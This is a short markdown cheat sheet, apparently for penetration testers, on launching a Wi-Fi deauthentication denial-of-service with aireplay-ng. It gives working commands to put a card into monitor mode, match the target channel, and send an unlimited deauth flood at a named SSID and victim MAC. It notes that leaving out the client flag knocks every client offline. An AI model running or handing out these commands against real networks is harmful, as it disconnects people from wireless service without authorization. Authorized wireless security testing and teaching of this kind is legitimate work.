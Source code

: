 # Aireplay-ng

### Aireplay-ng DOS

#### Information required for DOS

* The information that is needed is the MAC address of the victim, the BSSID of the access point, and the channel number.

```
# Place interface into monitor mode
sudo airmon-ng start wlan0
# Match the cards channel to the victim APs channel
sudo iwconfig wlan0mon channel 11
# Start attack
sudo aireplay-ng --deauth 0 -e "My Wifi" -c <victim MAC> --ignore-negative-one wlan0mon
```

* if `-c` is not specified aireplay-ng will send the deauth storm to broadcast, knocking all clients offline
* `--ignore-negative-one` is to avoid errors when aireplay-ng cannot identify the channel youre wireless card is on
* `-e` is the SSID of the target

